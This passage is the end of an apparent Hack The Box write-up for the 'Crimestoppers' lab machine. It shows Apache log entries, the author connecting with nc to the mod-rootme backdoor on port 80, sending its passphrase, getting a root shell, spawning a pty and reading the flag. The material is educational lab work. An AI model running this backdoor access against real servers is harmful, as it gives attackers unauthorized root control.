    ::1 - - [23/Dec/2017:14:57:40 -0800] "rootme" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:15:04:41 -0800] "hACKtHEbOX" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:15:04:52 -0800] "DmogXdiNct" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:15:05:04 -0800] "ElnfYehObu" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:15:05:12 -0800] "FomeZfkLav" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:15:05:21 -0800] "dMOGxDInCT" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:15:05:33 -0800] "eLNFyEHoBU" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:15:05:46 -0800] "fOMEzFKlAV" 400 0 "-" "-"
    
    

And when we take a look at apache's access logs we see a bunch of requests that have been made with the passphrase **FunSociety** and **get-root** so we put the pieces together by taking a look at the modrootme github repository [here](https://github.com/sajith/mod-rootme): and we see that we need to do the following:
    
    
    nc localhost 80
    get root
    id
    
    

So let's try it:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/15 ] [~/HTB/Crimestoppers]
    → nc 10.10.10.80 80
    GET FunSociety
    rootme-0.5 DarkArmy Edition Ready
    
    id
    uid=0(root) gid=0(root) groups=0(root)
    
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    root@ubuntu:/# cd ~
    cd ~
    
    root@ubuntu:/root# cat root.txt
    cat root.txt
    6fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get a root shell and get the root flag.

## **Conclusion**

Here we can see the progress graph :

